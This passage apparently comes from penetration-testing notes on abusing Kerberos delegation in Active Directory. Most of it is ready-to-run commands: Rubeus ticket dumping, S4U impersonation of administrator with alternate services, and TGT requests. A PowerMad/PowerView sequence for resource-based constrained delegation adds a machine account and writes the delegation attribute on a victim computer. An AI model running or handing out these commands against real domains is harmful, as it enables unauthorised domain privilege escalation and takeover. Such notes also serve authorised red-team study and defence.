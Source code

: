 Dump ticket:

```text
Rubeus dump /service:krbtgt
```

Generate ticket:

```text
Rubeus s4u /impersonateuser:<user> /msdsspn:cifs/<server>.<domain> /ticket:<ticket>
```

We can then apply it like on unconstrained delegation.

It might not always be the case that we find delegation for a useful service, in this case its possible to swap out the original service with more useful ones:

```text
Rubeus.exe s4u /user:<machine$> /rc4:<hash> /impersonateuser:administrator /msdsspn:time/srv.domain.local /altservice:cifs,host,rpcss,http /ptt
```

#### Service types:

* cifs - filesystem access
* http - winrm

In case we have a cleartext password, but not the rc4 hash we can use Rubeus to generate it and create a TGT:

```text
Rubeushash /password:secret
Rubeus asktgt /user:<user> /domain:<domain> /rc4:<hash>
```

### Resource-Based Constrained Delegation

Even if this does not show in BloodHound, if we have AllExentedRights over a machine, we can execute the command. Adding a new domain computer is not always needed \(in case we already have control over one, e.g. used mimikatz to obtain a machine account hash\)

We can use [PowerMad ](https://github.com/Kevin-Robertson/Powermad)to add a new domain computer:

```text
New-MachineAccount -MachineAccount <new-computername> -Password $(ConvertTo-SecureString 'secret' -AsPlainText -Force)
Get-DomainComputer -Identity <new-computername>
```

Set "msds-allowedtoactonbehalfofotheridentity" on a computer we have GenericWrite for so it allows our newly generated computerobject.

```text
$sid = Get-DomainComputer -Identity <new-computername> -Properties objectsid | Select -Expand objectsid
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($sid))"
$SDbytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDbytes,0)
Get-DomainComputer -Identity <victim-computername>| Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'= $SDBytes}
```
